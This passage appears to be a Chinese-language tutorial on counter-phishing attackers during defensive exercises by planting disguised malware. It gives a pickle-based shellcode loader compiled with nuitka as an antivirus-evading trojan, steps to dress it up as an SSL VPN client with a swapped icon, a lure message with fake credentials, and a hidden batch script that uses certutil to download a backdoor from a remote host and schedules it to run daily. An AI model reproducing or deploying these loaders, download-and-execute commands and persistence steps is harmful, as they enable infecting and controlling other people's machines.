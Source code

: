   

代码test2.py

  *   *   * 

    
    
    mport base64,pickle,ctypes  shellcode=b'这里填上面python脚本输出的数据'  pickle.loads(base64.b64decode(shellcode))

  

生成exe文件，一个比较简单的免杀木马，可以绕过杀毒软件  

  * 

    
    
    nuitka --mingw64 --standalone --show-memory --show-progress  --windows-company-name=test --windows-product-name=test --windows-file-version=1.0 --windows-product-version=1.0 --windows-file-description=test --windows-disable-console --nofollow-imports --follow-import-to=utils,src --onefile --output-dir=out test2.py

  

伪装成防守队攻击的sslvpn，利用BeCyIconGrabber.exe获取sslvpn的ico图标

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175357.png)  

接着用工具Restorator 2018.exe替换图标，就可以伪造成一个sslvpn程序了

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175359.png)  

攻击者会对范围内的系统进行信息收集和攻击利用，这个时候，只需要将免杀木马和vpn连接的教程文档放在一个www.zip的压缩里面，稍微需要伪装一下，可以用类似这样的话术来欺骗攻击者：

> vpn测试，仅内部员工使用！
>
> 点击文件夹中vpn程序，输入地址和端口
>
> 请输入账号密码xxx/xxx!@#123，即可访问资源

![]()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175400.png)

  

###

###  **钓鱼文件反制（三）**

bat脚本除了压缩包自解压运行之外，还可以利用工具将bat文件转成exe程序去伪装。

  

这里还是写个bat脚本文件，先利用certutil下载后门木马文件，然后做一个定时任务test，在每日下午16:18分运行后门木马文件。

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    @echo off  
    if "%1"=="h" goto begin  
    start mshta vbscript:createobject("wscript.shell").run("""%~nx0""h",0)(window.close)&&exit  
    :begin  
    copy c:\\windows\\system32\\certutil.exe a.exe  
    a.exe -urlcache -split -f  http://ip/test123.exe D://test123.exe  
    schtasks /create /tn test /tr D:\\\\test123.exe /sc daily /st 16:18
